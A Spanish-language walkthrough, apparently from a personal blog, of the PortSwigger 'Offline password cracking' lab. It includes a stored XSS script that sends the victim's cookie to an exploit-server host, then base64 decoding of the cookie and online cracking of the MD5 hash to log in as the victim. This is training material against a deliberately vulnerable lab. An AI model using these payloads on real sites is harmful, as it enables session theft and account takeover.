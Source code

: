 ```yaml
---
title: "Offline password cracking"
description: "Laboratorio de Portswigger sobre Authentication"
date: 2025-01-29 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - Authentication
tags:
  - Portswigger Labs
  - Authentication
  - Offline password cracking
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` almacena el `hash de la contraseña` del usuario en una `cookie`. Además, contiene una `vulnerabilidad de XSS` en la `funcionalidad de comentarios`. Para `resolver` el `laboratorio`, debemos `obtener la cookie stay-logged-in` de `Carlos` mediante `XSS`, `crackear su hash de contraseña` y luego `iniciar sesión` como `carlos`. Finalmente, debemos `eliminar su cuenta` desde la página `Mi cuenta`. Podemos usar nuestras credenciales `wiener:peter` para iniciar sesión, el `nombre de usuario` de la `víctima` es `carlos` y podemos usar el diccionario `Candidate passwords` [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) para `crackear` la `contraseña`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Authentication-Lab-10/image_1.png)

Pulsamos sobre `My account`, nos `logueamos` usando las credenciales `wiener:peter` y marcamos la casilla de `Stay logged in`

![](/assets/img/Authentication-Lab-10/image_2.png)

Pulsamos en `View post` y vemos que hay una `sección` de `comentarios`

![](/assets/img/Authentication-Lab-10/image_3.png)

Vemos que hemos podido `inyectar código HTML`

![](/assets/img/Authentication-Lab-10/image_4.png)

Si vemos el `código fuente` nos damos cuenta que el código insertado en la `sección` de `comentarios` no se está `HTML encodeando` 

![](/assets/img/Authentication-Lab-10/image_5.png)

Nos dirigimos al `Exploit server` y copiamos la url `https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit`, posteriormente vamos a publicar un comentario para `explotar` un `stored XSS` y así `obtener` la `cookie` del `usuario víctima`

```
<script>document.location='https://exploit-0a6800e703d4999e8022985501aa002c.exploit-server.net/exploit/'+document.cookie</script>
```

![](/assets/img/Authentication-Lab-10/image_6.png)

Una vez publicado nos dirigimos al `Exploit server` y abrimos el apartado de `logs` y vemos este `log`

![](/assets/img/Authentication-Lab-10/image_7.png)

Si `decodeamos` este `parámetro` de la cookie `Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz` obtener el `nombre` de `usuario` y la `contraseña` del usuario `hasheada`

```
# echo 'Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz' | base64 -d  
carlos:26323c16d5f4dabff3bb136f2460a943 
```

Además de `crackear` la `contraseña` con `john` o `hashcat` podemos usar `rainbow tables` para `obtener` la `contraseña`, existen varias web que podemos usar como [https://crackstation.net/](https://crackstation.net/)

![](/assets/img/Authentication-Lab-10/image_8.png)

También podríamos `pegar` el `hash` en el `navegador` y `obtener` el `contenido` del `hash` de esta forma

![](/assets/img/Authentication-Lab-10/image_9.png)

Una vez tenemos el `usuario` y la `contraseña` ya podemos acceder `iniciar sesión` con las credenciales `carlos:onceuponatime` y `borrar` al `usuario carlos`

![](/assets/img/Authentication-Lab-10/image_10.png)

![](/assets/img/Authentication-Lab-10/image_11.png)

![](/assets/img/Authentication-Lab-10/image_12.png)
